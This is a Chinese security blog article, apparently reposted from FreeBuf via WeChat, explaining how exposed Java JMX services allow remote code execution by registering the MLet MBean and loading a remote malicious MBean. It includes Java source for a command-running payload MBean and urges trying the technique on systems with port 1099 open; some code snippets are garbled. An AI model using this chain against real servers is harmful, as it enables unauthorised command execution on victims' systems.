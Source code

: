 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/sVCSuoYIoJ63W5kWHrxMiw)

**前言：**
-------

**前一段时间 apace solr JMX 因为配置不当出现远程代码执行漏洞，最近自己在看一套 java 系统时，发现该系统也存在 JMX 远程代码漏洞，于是乎就想研究下 JMX 这种通用型漏洞，下面我就从原理到利用对该漏洞做一个简单的梳理。**

**一、****JMX** **服务和 MBean**
---------------------------

JMX（Java Management Extensions，即 Java 管理扩展）是一个为应用程序、设备、系统等植入管理功能的框架。JMX 是一套复杂的机制，由于我们要讲的 JMX 远程代码漏洞和 MBean 相关，所以这里我们之介绍 jmx 和 mbean 相关的一些基础知识。

JMX 是管理扩展，通过 JMX 我们可以监控管理我们的指定的 java 程序。但不是所有的 java 类都能被管理。只有按照特定格式编写的 java 类才能被 jmx 原理。这种特定格式机制我们称为 Mbean。

我们先看一个简单的 MBean，mbean 首先需要定义一个接口，定义格式 xxxMBean,

之后再定义一个实现该接口的类。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsMy2GaZMOPBw4BXVCwVulAH31VXz6p2BX0IibUtqpgWecbhhKSvLckXlA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsMscebS81AErEGHjQF8ZwicIG9ozic0LsVkVz6gZ1QhUIuQaUibVTcPcV4g/640?wx_fmt=jpeg)

**二、****MBeanServer**
---------------------

对于已经实现的 MBean，我们怎么进行监控和管理，这里就需要 MBeanServer 了。我们可以将 MBeanServer 理解为一个 mbean 的仓库，需要监控的 mbean 都需要先注册到仓库中。向 MBeanServer 注册 mbean 有两种方式，一是本地注册，二是远程注册（远程注册就为我们执行任意代码提供了可能，后面会细讲）。

我们先看一段简单的代码，本地向 mbeanserver 注册 mbean。

```
public static void main(String[] args) throwsException{
MBeanServer mBeanServer = ManagementFactory.getPlatformMBeanServer();
//向MBeanServer 注册 mbean
ObjectName helloName = new ObjectName("HelloMbean:);
mBeanServer.registerMBean(new Hello(), helloName);
Registry registry = LocateRegistry.createRegistry(1099);
//构造 JMXServiceURL
JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:1099/jmxrmi");
JMXConnectorServer jmxConnectorServer = JMXConnectorServerFactory.newJMXConnectorServer(jmxServiceURL, null, mBeanServer);
jmxConnectorServer.start();
System.out.println("JMXConnectorServer is running");}

```

运行程序，使用 jconsole 链接 127.0.0.1:1099，可以看到我们的 HelloMBean, 也可以执行 Hello() 函数。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsMnQq7JHcJmRDSaSONVic8icicSoS91QcKiasRAVBVxj2kWqibW5K2qvZ3jtw/640?wx_fmt=jpeg)整个过程代码实现如下：

```
static void JMXClient() throws Exception{     JMXServiceURL url = new JMXServiceURL("service:jmx:rmi:///jndi/rmi://localhost:1099/jmxrmi");     JMXConnector jmxConnector = JMXConnectorFactory.connect(url,null);     MBeanServerConnection mBeanServerConnection = jmxConnector.getMBeanServerConnection();     ObjectName mbeanName = new ObjectName("HelloMbean:, null, null); }

```

我们可以在代码中执行 MBean 中的方法。

**三、****一个特殊的 Mbean** **之 MLet**
--------------------------------

前面我们知道了 mbean 是什么东西，这里我们需要认识一个特殊的 mbean 叫 MLet。

这是一个系统自带的 mbean。我们简单看下其定义。

```
/**  * Exposes the remote management interface of the MLet  * MBean.  */ public interface MLetMBean   {

```

```
public class MLet extends java.net.URLClassLoader
implements MLetMBean, MBeanRegistration, Externalizable { private static final long serialVersionUID = 3636148327800330130L;/** * The reference to the MBean server.*/ private MBeanServer server = null;

```

**![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsMxEuM8LQU6jFxMlZ1IWI3oKib5o52PbI9gtqsyjMmxh3wtraRjXc0kIw/640?wx_fmt=jpeg)**

简单理解就是，我们可以通过 Mlet 加载一个远程服务器上的 MBean，并且没有对远程的 mbean 做合法性检测。

Mlet 定义了一个函数 getMBeanFromURL，用来加载并实例化远程的 Mbean。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsMXg0QC2pux9In3DgFGaCzReKibZCoTG7Lrkic5ziaicT7YQFSI7LumJGXxg/640?wx_fmt=jpeg)

至于 getMBeanFromURL 怎么加载远程 mbean，加载哪个 mbean。需要 mlet 来规定。

上面规定了 mlet 的格式，下面我们简单看下几个必须字段的含义。

CODE = class

此属性指定了要获取的 MBean 的 Java 类的全名，包括包名称。

ARCHIVE = "archiveList"

此属性是必需的，它指定了一个或多个 .jar 文件，这些文件包含要获取的 MBean 使用的 MBean 或其他资源。

NAME = mbeanname

当 m-let 已注册 MBean 实例时，此可选属性指定了要分配给 MBean 实例的对象名称。如果 mbeanname 以冒号字符 (:) 开始，则对象名称的域部分是 MBean 服务器的默认域，可由 MBeanServer.getDefaultDomain() 返回。

**四、****使用 Melt** **加载远程 MBean**
--------------------------------

上一节我们简单介绍了下 MLet，这节介绍下怎么加载远程的 MBean

下面我们先实现一个恶意的 MBean，并将其打包成 JMXPayload.jar。

```
public interface PayloadMBean {     public String runCmd(String cmd) throws IOException, InterruptedException; } public class Payload implements PayloadMBean {     @Override     public String runCmd(String cmd) throws IOException,InterruptedException {         Runtime runtime = Runtime.getRuntime();         Process process = runtime.exec(cmd);         BufferedReader stdInput = new BufferedReader(new InputStreamReader(process.getInputStream()));         BufferedReader stdError = new BufferedReader(new InputStreamReader(process.getErrorStream()));         String stdout_data = "";         String strtmp;         while ((strtmp = stdInput.readLine()) != null) {             stdout_data += strtmp + "\n";         }         while ((strtmp = stdError.readLine()) != null) {             stdout_data += strtmp + "\n";         }         process.waitFor();         return stdout_data;     } }

```

构造 mlet 文件

将 mlet 和 JMXPayload.jar 放在 web 下同一个目录中。

**![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsMnyicFzicJk1vUmLtU8Nic6ztXyCGUO6R064iacAYYbwxaKiaQibaT7QKrGDQ/640?wx_fmt=jpeg)**

先使用 registerMBean 向 MBeanServer 注册 Mlet，然后使用 getMBeanFromURL 函数加载远程的 PayloadMBean。

运行程序，使用 jsonsole 连接 127.0.0.1:1099

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsMUZaldWicStynpqGhcVf0bGW57OAu9HUscw7K6wGWdou4VibZl6tPnxeA/640?wx_fmt=jpeg)**五、****向远程的 MBeanServer** **注册 mbean**
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

前几节介绍的向 MBeanServer 注册 mbean 都是在 server 端完成的，那如何在 client 端向远程的 MBeanServer 注册 mbean 呢。

我们先实现一个默认的 MBeanServer，没有向其注册我们的 mbean。

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsMFRNviaiaz95kB5icLqGeUejMWQoIoBLibDTrib2OWktpbF7WoDq05kFPyLA/640?wx_fmt=jpeg)

本地我们可以通过 MBeanServer.RegisterMBean 注册 mbean

远端我们可以通过 MBeanServerConnection.createMBean 注册 mbean

客户端代码：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsM3HFS0rhxmsjwYl9AIzsgMXr3krg2NZAeKiaIlxAN8s8nUr5CIiaqHqoA/640?wx_fmt=jpeg)

Jconsole 查看结果如下，Mlet 已经被注册：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsMFZdSsfyb8nbGlibx1xrezia90BDyWibRcMLEVKWNRZMEeiarDpl5mlmPmg/640?wx_fmt=jpeg)然后通过 getMBeansFromURL 加载我们的恶意 Mbean, 执行结果如下：

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsMCg9ooIy2KAL4F494jD5Ncezfm1qGiaCXILdkqkR2v3hPCqNUfw3fhyg/640?wx_fmt=jpeg)

然后可以通过 payload 执行任意代码

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib22iaoxb2Dlicp4RgaxgqQsMphCicKVzmW7eTY99yUZ60HD3Ddp1GUn8hkMiayNGRLqaGT2HguaCXt5g/640?wx_fmt=jpeg)当然这个 jsonsole 执行代码这个流程可以使用代码实现，有兴趣的可以自己研究下。

**六、总结**
--------

至此，JMX 漏洞的整理利用流程就结束了。我们再重新梳理下过程。

> 首先是 MBeanServer 提供了一套远程注册 MBean 的机制，让我们能够在本地向远端注册 MBean。这个问题不大，因为我们不能注册自己写的 mbean，只能注册远端服务器上已经有的 mbean。巧的是 jdk 自己就有一些 mbean，其中有一个 mbean 叫 mlet。
> 
> Mlet 是实现了一个函数 getMBeansFromURL(url), 这个函数能够加载并实例化我们指定的远程 mbean，从而导致了我们的恶意 payloadMBean 被加载注册到 MBeanServer 上，导致任意命令执行。
> 
> JMX 漏洞是一个通用型漏洞，如果遇到 java 系统开启 1099 端口，或者开启 jmx 的都可以使用该漏洞测试一下，惊喜就在意外中。

参考：
---

> https://www.apiref.com/java11-zh/java.management/javax/management/loading/MLet.html
> 
> https://www.anquanke.com/post/id/194126

* **本文原创作者：MrCoding，本文属于 FreeBuf 原创奖励计划，未经许可禁止转载**

![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR38Tm7G07JF6t0KtSAuSbyWtgFA8ywcatrPPlURJ9sDvFMNwRT0vpKpQ14qrYwN2eibp43uDENdXxgg/640?wx_fmt=gif)

![](http://mmbiz.qpic.cn/mmbiz_png/3Uce810Z1ibJ71wq8iaokyw684qmZXrhOEkB72dq4AGTwHmHQHAcuZ7DLBvSlxGyEC1U21UMgSKOxDGicUBM7icWHQ/640?wx_fmt=png&wxfrom=200) 交易担保 FreeBuf+ FreeBuf + 小程序：把安全装进口袋 小程序

  

精彩推荐

  

  

  

  

****![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3ib2xibAss1xbykgjtgKvut2LUribibnyiaBpicTkS10Asn4m4HgpknoH9icgqE0b0TVSGfGzs0q8sJfWiaFg/640?wx_fmt=jpeg)****

  

[![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38N1ibc28m106XBOZqPfmdichVeQfcl3VFtT457O3xkY9iaf0jCS8fY3KHznPacyRibeGWf6cZEbQ0gRA/640?wx_fmt=jpeg)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484111&idx=1&sn=f6537a7cc7d41948fd7fa6c95829dd7e&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR38N1ibc28m106XBOZqPfmdichQF3e77AELshS8UwXdWTrNib9OUcRutH0Z4F1GX7geZ3aYLCWg0mqESA/640?wx_fmt=jpeg)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484105&idx=1&sn=6aeef8d1cafdfcaadc54c26a395c4aa5&scene=21#wechat_redirect)

[![](https://mmbiz.qpic.cn/mmbiz_png/qq5rfBadR38N1ibc28m106XBOZqPfmdichMyKw7mViaF89OftycfbYDS6hbVB4CLvlxOricLDFzMibfQ7JuicS2ia7qog/640?wx_fmt=png)](https://mp.weixin.qq.com/s?__biz=Mzg2MTAwNzg1Ng==&mid=2247484099&idx=1&sn=27c9b1f45cf3cfcb6ff86a6ce2da14e9&scene=21#wechat_redirect)

**************![](https://mmbiz.qpic.cn/mmbiz_gif/qq5rfBadR3icF8RMnJbsqatMibR6OicVrUDaz0fyxNtBDpPlLfibJZILzHQcwaKkb4ia57xAShIJfQ54HjOG1oPXBew/640?wx_fmt=gif)**************